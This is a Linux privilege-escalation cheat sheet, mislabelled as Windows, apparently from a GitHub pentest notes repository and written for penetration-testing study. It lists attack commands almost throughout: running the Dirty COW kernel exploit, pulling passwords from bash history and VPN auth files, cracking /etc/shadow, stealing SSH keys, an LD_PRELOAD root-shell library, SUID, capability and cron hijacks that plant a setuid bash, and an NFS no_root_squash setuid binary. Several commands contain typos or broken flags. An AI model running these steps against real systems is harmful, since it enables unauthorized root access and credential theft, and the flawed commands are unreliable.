 # Windows Privilege Escalation
## //cheat-sheet

**[Back to Command-Center](https://github.com/codetorok/command-center/blob/master/README.md)**

### Resources:

* **[g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)**
* **[hacktricks](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**
* **[sushant747 OSCP-guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)**

### Automated privesc tools:

* **[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**
* **[linenum](https://github.com/rebootuser/LinEnum)**
* **[linenumsuggester](https://github.com/mzet-/linux-exploit-suggester)**
* **[linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)**

### Escalation path: Kernel exploits
#### Kernel exploits are very straight forward. We hunt down what version of kernel is running on the target system and then we exploit it.

* **[resource: lucyoa/kernerl-exploit](https://github.com/lucyoa/kernel-exploits)**

* chek kernel version on target system: `uname -a`
* compile dirty c0w.c first `gcc -phthread c0w.c -o cow`
* use dirty c0w on target machine `./cow`
* c0w output: ***Backing up /usr/bin/passwd to /tmp/bak***
* type in: `passwd` and you're **root**

### Escalation path: Password and file permissions

#### Escalation via stored passwords:

* see history if possible, if someone connected to a mysql database with their credentials for example it will show up in there, use command `history`
* cat out the `cat .bash_history` as well
* you can also try using the ***history*** command with ***grep*** to grep for the password: `histroy | grep passwd`
* `ps aux` to see processes
* `w` to see who's logged in 
* when asked for a password on the system if you see asterisks while typing out the password in terminal that's a very specific version of ***sudo***, that's usually the **.pwfeedback** is being set. **Any sudo before 1.8.6**. Usually Linux Mint and Elementary OS, get sudo version: `sudo -v` **env_reset.pwfeedback** is being reset.
* ***cat*** out the ****.ovpn*** file to check for credentials or references: `cat myvpn.ovpn` shows that the password is coming from the ***/etc/openvpn/auth.txt*** so we can just cat that file out for credentials

#### Escalation via weak file permissions:

* `ls -la /etc/passwd` and `ls -la /etc/shadow` if you can access both and cat them out we can use ***john*** or other similar tools to crack those passwords
* passwd file doesn't have any passwords in it (back in the day it was) , it helps us to ID the users
* **x**  is a placeholder in it for the hash which contains the password from the shadow file
* if we can modify /etc/passwd the x in the file we could become root,
like delete it, if there's no placeholder we can just switch to root user without a password or change it to 0
* we can change the hash to one where we know the password and become root like that

#### Escalation via ssh keys:

* `find / -name authorized_keys 2>/dev/null`
* `find / -name id_rsa 2>/dev/null`
* once the key was found copy it to your machine into a file and don't forget to `chmod 600 id_rsa` to be able to use it to log in via ssh
* `ssh -i id_rsa root@<target IP>`

### Escalation path: sudo

#### Preloading

* it's a feature of LD (dynamic linker)
* we're going to preload a user library by running sudo with ID preload and execute our own library before anything else
* `nano shell.c`
* `#include <stdio.h>`
* `#include <sys/types.h>`
* `#include <stdlib.h>`
* `void_init() {`
* `   unsetenv("LD_PRELOAD");`
* `   setgid(0);`
* `   setuid(0);`
* `   system("/bin/bash");`
* `}`


* don't forget to include tabs with lines: unsetenv, segid, setuid, system
* compile it: `gcc fPIC -shared -o shell.so shell.co -nostartfile`
* ***fPIC is position independent code***, regardless of what your shell address is, it will work
* need full path to ***shell.so***
* run it: `sudo LD_PRELOAD=/home/usr/shell.so apache2`

### Escalation path: SUID

* to hunt it down: `find / -type f -perm -04000 -ls 2>/dev/null`

#### Shared object injection:

* strace is diagnosing, debugging Linux for tampering and monitoring
* `strace /usr/local/bin/suid-so 2>&1`
* grep the output `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`


#### Symbolic link

* symbolic link: any file that contains a reference to another file or directory in a form of an absolute or relative path
* create a function and export it: `function /usr/sbin/service() {cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
* export service: `export -f /usr/sbin/service`
* compile it and change path: `gcc /tmp/service/.c -o /tmp/service` and `export PATH=/tmp:$PATH`

### Escalation path: capabilities

* searching for capabilities: `getcap -r / 2>/dev/null`
* found (ex) : `/usr/bin/python2.6 = cap_setuid+ep`
* execute: ` /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

### Escalation path: scheduled tasks

* **m h dom mon dow user command** /month, hour, day of month, month, day of week, user, command
* `17 * * *` every 17th minutes execute a command for a user
* `* * * * root /user/local/bin/compress.sh`
* `* * * * root overwrite.sh`
* then
* `systemctl list-timers --all`
* add to file that root executes via crontab: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
* wait for crontab to kick in and run: `/tmp/bash -p` and we're root!

* ***note: The -p option in bash and ksh is related to security. It is used to prevent the shell reading user-controlled files.***

* **Another way of overwriting the crontab file is:**
* `cat /usr/local/bin/overwrite.sh`
* `nano /usr/local/bin/overwrite.sh`
* `#!/bin/bash`
* `echo date > /tmp/useless`
* `cp /bin/bash /tmp/bash; chmod +s /tmp/bash`
* now we have overwritten the ***overwrite.sh*** file, now run: `/tmp/bash -p`
* `whoami`
* **root!**

### Escalation via NFS root squashing

* on target machine `cat /etc/exports` shows no root squash but what does this mean? /tmp folder can be mounted from attacking machine!
* `showmount -e <target IP>` results will show up
* `/tm *`
* make a folder on your machine `mkdir /tmp/mountme`
* and mount it: `mount -o rw vers=2 <target IP>:/tmp /tmp/mountme`

* from kali: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`
* compile it: `gcc /tmp/mountme/x.c -o /tmp/mountme/x`
* chande mod: `chmod +x /tmp/mountme/x`
* now cd over to /tmp on target machine and execute `./x`
* we're root!

### Upgrade your shell on target machine

* `python 'import pty;pty.spawn("/bin/bash")'
* `export TERM=xterm
* background your shell with **CTRL+Z**
* `ptty raw -echo; fg`

